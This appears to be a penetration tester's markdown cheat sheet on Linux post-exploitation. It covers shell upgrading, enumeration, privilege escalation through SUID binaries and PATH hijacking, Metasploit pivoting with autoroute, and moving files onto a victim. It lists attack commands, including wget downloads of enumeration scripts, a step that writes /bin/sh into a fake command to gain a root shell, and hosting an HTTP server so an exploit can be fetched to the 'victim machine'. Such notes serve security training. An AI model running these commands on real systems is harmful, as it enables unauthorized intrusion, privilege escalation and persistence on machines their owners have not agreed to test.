 # Linux Post Exploitation


<details>
    <summary></summary>
    <br>
</details>



<details>
    <summary>Useful</summary>
    <br>
    
**Upgrading basic shell to terminal**

    python -c 'import pty;pty.spawn("/bin/bash")';
    
</details>


    

<details>
    <summary>Enumeration</summary>
    <br>
    
## Manual Enumeration

    uname -a
       
    ps -aux 
    
    id
    
      Find out if the user is part of groups with interesting files
      
      find / -type f -group <group> 2>/dev/null
      
  - Find all writable direcotries for copying over scripts
  
        find / -writable
        
  - Check /etc/passwd for user/ group ids

    0 is typically root ( this can be <= 500) 
    
    1000+ is where new user accounts start
   
    
  - [LinEnum](https://github.com/rebootuser/LinEnum)  
  
        wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh          
          
  - [Local Linux Enumeration](https://www.rebootuser.com/?p=1623)
  
  
  See what sudo commands you can run
  
       sudo -l
       
</details>

<details>
    <summary>Maintain persistence</summary>
    <br>

## Metasploit modules    

  - Add user


  - Set a scheduled task
  
</details>

<details>
    <summary> Privilege escalation</summary>
    <br>
    
 Horizontal or vertical privilege escalation?
 
 ## Metasploit 
  
    post/linux/
 
    post/multi/recon/local_exploit_suggester

## research exploits

    searchsploit <linux kernel version>
   
    searchsploit <linux version>
    
    
## scripts and resources

- [Privilege Escalation Cheatsheet ](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

- [guide to priv escalation](https://payatu.com/guide-linux-privilege-escalation)

-------------------------------------------------------

- [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
   
        wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
        
        https://book.hacktricks.xyz/linux-unix/privilege-escalation




- **Also Read LinEnum output: **

- **Kernel Kernel information**

- **Can we read/write sensitive files:** The world-writable files are shown below. These are the files that any authenticated user can read and write to. By looking at the permissions of these sensitive files, we can see where there is misconfiguration that allows users who shouldn't usually be able to, to be able to write to sensitive files.

#

- [**SUID**](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) Files: SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. It allows the file to run with permissions of whoever the owner is. If this is root, it runs with root permissions. It can allow us to escalate privileges.
     
     [Past SUID shells](https://github.com/Kahvi-0/Tools-and-Concepts/tree/master/Toolbox/Shells/SUID)
     
     Sometimes custom scripts will use relative pathing for commands rather than absolute. One way to abuse this would be to add . to your PATH and have a shell script in your working directory with the name of that command in the script. 
     
          echo /bin/sh > <command>    # To run <command> which then points to shell
          
          chmon 777 <command>
          
          export PATH=/tmp:$PATH
   
        #Manual  find directory -user root -perm -4000 -exec ls -ldb {} \; 2>&1 | grep -v "Permission denied"
        
         find / -perm -u=s -type f 2>/dev/null
         
#

- **Crontab Contents:** The scheduled cron jobs are shown below. Cron is used to schedule commands at a specific time. These scheduled commands or tasks are known as “cron jobs”. Related to this is the crontab command which creates a crontab file containing commands and instructions for the cron daemon to execute. There is certainly enough information to warrant attempting to exploit Cronjobs here. 
</details>
   
 
<details>
    <summary>Pivoting</summary>
    <br> 

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
       
       Note that the routes created via meterpreter only aspply to that isntance of metasploit.
        If modules are crashing the shell when trying to scan via metasploit module, try running the scan from the compromised machine itself, then launcing targeted attacks from metasploit. 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
       
</details>



<details>
    <summary>Methods to upload files to/from target</summary>
    <br>
    
  ## Downloading files

    python -m SimpleHTTPServer  #Host the web server
      wget <IP>:8000/exploit     # Download to victim machine

    python -m pyftpdlib 21      #Host ftp server
      ftp <IP>
      
</details>



